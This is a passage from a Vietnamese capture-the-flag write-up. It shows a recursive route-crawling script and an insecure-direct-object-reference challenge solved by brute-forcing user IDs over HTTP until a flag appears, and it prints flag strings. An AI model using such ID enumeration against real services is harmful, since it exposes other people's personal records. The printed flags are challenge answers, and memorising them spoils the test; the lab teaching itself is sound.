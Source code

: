 ```python
    return r.text

def run(cur, f):
    print(cur)
    f.write('=====\n' + cur + '\n')
    f.write(get_content(base + cur))
    routes = get_routes(base + cur)
    if check(base + cur):
        print(base + cur)
        return True

    for r in routes:
        if r == '../':
            continue
        if run(cur + r, f):
            return True

with open('log', 'w') as f:
    run('', f)
```

`FLAG{6059e2117ea3eeecdad7faf1e15d16a2}`

### ID'OR1=1

> Một lỗ hổng rất cơ bản! Nhưng nếu nó xảy ra thì hậu quả rất khủng khiếp...

Nhìn cái tên thì nghe có vẻ giống như một bài SQLi khác, mình sẽ nhập 1 cái id và trang sẽ trả về json data về thông tin cá nhân của người đó. Ban đầu mình thử 1 số trò SQLi cơ bản nhưng không được thì mình tính tới chuyện crawl hết đống data về xem chứa flag trong đó không. Kết quả: 200 id nhưng chẳng có gì.

Nản quá nên mình lui ra kiếm bài khác làm, sau đó thì có cái hint của BTC là "Cuộc dạo chơi của những con số". Hmm, sao nghe giống BTC đang bảo mình brute thêm 1 lần nữa thế :D

Thôi đã tới thì tới luôn vậy.

```python
import requests

with open('log', 'w') as f:
  for i in range(2000):
    print(i)
    r = requests.get('http://chal11.web.letspentest.org/user?id=' + str(i))
    if 'invalid' not in r.text:
      f.write('====\n' + str(i) + '\n' + r.text)
      if i > 200:
        print('Found one!')
```

Flag nằm ở id 1337, *nice*

`Flag{61cb4a784e83b6109999af6f036b88bf}`

## Forensic

